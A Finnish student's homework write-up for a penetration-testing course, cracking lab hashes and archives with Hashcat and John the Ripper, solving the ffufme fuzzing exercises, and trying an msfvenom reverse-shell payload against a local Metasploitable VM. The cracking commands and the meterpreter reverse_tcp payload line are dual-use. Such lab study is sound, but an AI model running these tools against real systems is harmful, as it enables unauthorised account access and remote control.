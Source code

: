 ## H4: Marraskuu2024!

## Host-kone: AMD Ryzen 5800X3D, NVIDIA RTX 3080, 32GB DDR4, Windows 11 23H2

### x) Lue/katso ja tiivistä. (Tässä x-alakohdassa ei tarvitse tehdä testejä tietokoneella, vain lukeminen tai kuunteleminen ja tiivistelmä riittää. Tiivistämiseen riittää muutama ranskalainen viiva kustakin artikkelista. Kannattaa lisätä myös jokin oma ajatus, idea, huomio tai kysymys.)

### a) Asenna Hashcat ja testaa sen toiminta murtamalla esimerkkisalasana.

Hashcat olikin jo valmiina Kalissa. `hashcat -v`

![image](https://github.com/user-attachments/assets/bf4f28bf-db09-4ba2-97f4-bc20a302ff3b)

Latasin salasanalistan wgetillä osoitteesta https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt. Tuossa pitäisi olla 1000 heikkoa salasanaa testattavaksi.

Tiedosto on kotihakemistossani nimellä 10-million...

![image](https://github.com/user-attachments/assets/e0b39e5f-8fa9-4311-9409-7d483dc9f5fd)

Eräs salasana listassa oli 'master'. Kokeillaampas sitä. Teen siitä MD5 hashin tiedostoon, jonka kokeilen kräkätä hashcatilla.  `echo -n 'master' | md5sum > output.txt` luo hashin ja pistää sen tiedostoon output.txt.

![image](https://github.com/user-attachments/assets/b00977e0-1057-4c31-96ed-74102948dd8d)

Siellä on. Ajetaan komento `hashcat -m 0 output.txt 10-million-password-list-top-1000.txt`. Siellä olikin md5sumin laittama viiva lopussa joka indikoi sitä että hash on stdinistä eikä tiedostosta tullut. Poistetaan se nanolla ja ajetaan komento uusiksi.

Sain erroria muistiin liittyen, koneella ei ehkä ole tarpeeksi. Annetaan lisää virtualboxista. Eiköhän 16GB riitä. Komentoon piti lisätä vielä `-a 0` -lippu että se toimii kunnolla. Se asettaa hashcatin käyttämään sanalistaa. 

![image](https://github.com/user-attachments/assets/fe5aaea4-72db-4f3c-9020-ab0ee152d850)

Oikeinhan se on, tuo on sanan master md5-hash.

### b) Asenna John the Ripper ja testaa sen toiminta murtamalla jonkin esimerkkitiedoston salasana.

Seuraan Teron ohjeita artikkelista Crack file password with John. Päivitän paketit ja asennan tarvittavat paketit.

`sudo apt update`, `sudo apt upgrade`, `sudo apt -y install micro bash-completion git build-essential libssl-dev zlib1g zlib1g-dev zlib-gst libbz2-1.0 libbz2-dev atool zip wget`. zlib-gst ei asentunut koska sitä ei löydy. Jätetään se pois. 

Kloonataan Johnin repo: `git clone --depth=1 https://github.com/openwall/john.git`

![image](https://github.com/user-attachments/assets/0c46c377-e719-4575-8871-d546eafbdaeb)

Navigoidaan kansioon john/src. Siellä on configure-tiedosto joka ajetaan `./configure`

![image](https://github.com/user-attachments/assets/4e83828a-e549-4d2d-b1e9-637ba93215e2)

Nyt ajetaan tuon antamat komennot Johnin kompiloimiseksi. `make -s clean && make -sj2`

Onnistui.

![image](https://github.com/user-attachments/assets/cd5b4399-1cf1-47a9-9247-9d87709baacc)

Ohjeiden mukaan latasin wgetillä tero.zipin ja siirsin sen myös kotihakemistoon. Loin siitä hashin.

![image](https://github.com/user-attachments/assets/376198f1-ed45-421b-a4f2-67e74af8d5af)

Sehän toimii. Salasana on 'butterfly'.

![image](https://github.com/user-attachments/assets/c6ececb4-60a7-4242-a1a9-2b69c751c06d)


### c) Fuffme. Asenna Ffufme harjoitusmaali paikallisesti omalle koneellesi. Ratkaise tehtävät (kaikki paitsi ei "Content Discovery - Pipes")

Harjoitusmaali:

Kloonasin repon ja seurasin sieltä löytyviä ohjeita maalin asennukseen. Sitten curlasin localhostia portilla 80 ja siellähän se on. 

![image](https://github.com/user-attachments/assets/4fa8abf1-a677-45f2-8e9b-d7bf4fcb9a60)

![image](https://github.com/user-attachments/assets/db65451a-96f7-496a-9185-ddd428fed977)

Content Discovery basic onnistui:

![image](https://github.com/user-attachments/assets/23b2196d-cc00-4671-86e3-cc01a291019f)

REcursion onnistui:

![image](https://github.com/user-attachments/assets/31119871-e815-4c33-ad92-dacdafd01e34)

File extensions onnistui:

![image](https://github.com/user-attachments/assets/1ca09c85-599e-4b4c-b2b0-f4929ebd4d85)

No404 onnistui:

![image](https://github.com/user-attachments/assets/92096a5b-65ce-4728-8f94-6b496a9b5e2c)

Parameters onnistui:

![image](https://github.com/user-attachments/assets/66ab14c5-0624-4eb6-a0d9-9b89dd21555c)

Rate onnistui:

![image](https://github.com/user-attachments/assets/3cc2427d-e06c-420f-96fb-1d0ea8970db1)


### d) Tiedosto. Tee itse tai etsi verkosta jokin salakirjoitettu tiedosto, jonka saat auki. Murra sen salaus. (Jokin muu formaatti kuin aiemmissa alakohdissa kokeilemasi).

Tein Kalin file managerissa kansion Tobecracked johon laitoin tekstitiedoston ja zippasin sen .7z formattiin ja laitoin salasanaksi qwerty.

Sitten tein siitä hashin komennolla `/john/run/7z2john.pl Tobecracked.7z > Tobecracked.7z.hash`. Sitten ajoin `john/run/john --wordlist=passwords.txt Tobecracked.7z.hash`.

![image](https://github.com/user-attachments/assets/16b6f3b9-f5ac-429b-aeb1-c99b224fedac)

Sieltähän se tuli. 


### e) Tiiviste. Tee itse tai etsi verkosta salasanan tiiviste, jonka saat auki. Murra sen salaus. (Jokin muu formaatti kuin aiemmissa alakohdissa kokeilemasi. Voit esim. tehdä käyttäjän Linuxiin ja murtaa sen salasanan.)

Löysin netistä esimerkki hashin, SHA-1 muotoa. Identifioidaan se hash-identifierillä: `hash-identifier b89eaac7e61417341b710b727768294d0e6a277b`

![image](https://github.com/user-attachments/assets/1820463a-a3ad-4656-b6c9-5f719192fbb5)

Kokeilin sitä rockyou.txt:tä vastaan, mutta matchia ei tullut. `hashcat -m 100 'b89eaac7e61417341b710b727768294d0e6a277b' rockyou.txt -o solved.txt`

![image](https://github.com/user-attachments/assets/0d1b9eea-4f08-4277-986c-9dfce85c9bb5)

Muokataampas sanalistaa hieman sivulta löytyvällä sisällöllä, josta hashin otin. Näin simuloimme hieman tähdättyä hyökkäystä custom sanalistalla. 

![image](https://github.com/user-attachments/assets/92e590dd-df2b-4139-bcec-1a9f062e8733)

![image](https://github.com/user-attachments/assets/8eedeb20-33a0-4ab2-b21b-4f53e368dd21)

Sieltähän se tuli.

![image](https://github.com/user-attachments/assets/7dbea933-d529-4651-9306-742860db01c6)

Salasana oli siis hashcat, ja hashin otin hashcatin kotisivuilta. https://hashcat.net/wiki/doku.php?id=example_hashes


### f) Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell). Ota yhteys vastaan metasploitin multi/handler -työkalulla.

Tein payloadin käyttämällä Teron esimerkkikomentoa läksyistä `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=80 -o infected` Muutin porttia hieman, kokeillaan vaikkapa porttia 80 Metasploitablen nmap-tuloksista. 

Käynnistin Kalin viereen metasploitablen. Otan Kalista netin pois.

Enempää en osannut eikä netistä pikagooglauksella löytynyt mitään mitä osaisin hyödyntää, joten kysyin ChatGPT:ltä seuraavalla promptilla:

![image](https://github.com/user-attachments/assets/044d3bb2-6d46-4df1-99db-da5067417520)

Vastauksena sain ohjeet eka generoida payloadin, minkä tein jo. Seuraavaksi ohjeena tuli käynnistää kuuntelu Kalilla, seuraavilla komennoilla MSFconsolesta.

![image](https://github.com/user-attachments/assets/af87bf8b-163f-4430-9e73-d992c229077f)

Niin näyttäisi tapahtuneen. Seuraavaksi payload pitäisi saada maalikoneelle jotenkin. Tätäkin kysyin ChatGPT:ltä promptilla "how can i send the payload to a metasploitable box on the same network as a kali box. neither are connected to public internet."

Vastauksena sain että käytä komentoa `scp`. Eli siis `scp infected vagrant@192.168.12.5:/tmp`, joka kopioi tiedoston Metasploitablen /tmp kansioon. Siellähän se on. 

![image](https://github.com/user-attachments/assets/ea67f828-94ca-49f2-8542-a8f553872b95)

![image](https://github.com/user-attachments/assets/bea05995-86d3-4195-84f5-12555954c706)

Sain sen koneelle, ja koitin käynnistää sitä muttei se toiminut. Tämä errori tuli, eikä sessio auennut. 

![image](https://github.com/user-attachments/assets/41c0503e-9e0c-4c64-a74c-e25396d521dd)

Tähän jäi tällä kertaa. 

## Lähteet:

https://terokarvinen.com/tunkeutumistestaus/

https://hashcat.net/wiki/doku.php?id=hashcat

https://terokarvinen.com/2022/cracking-passwords-with-hashcat/

https://terokarvinen.com/2023/crack-file-password-with-john/

https://www.pdfsharp.net/wiki/Print.aspx?Page=ProtectDocument-sample&AspxAutoDetectCookieSupport=1

https://hashcat.net/wiki/doku.php?id=example_hashes

https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom

https://chatgpt.com/
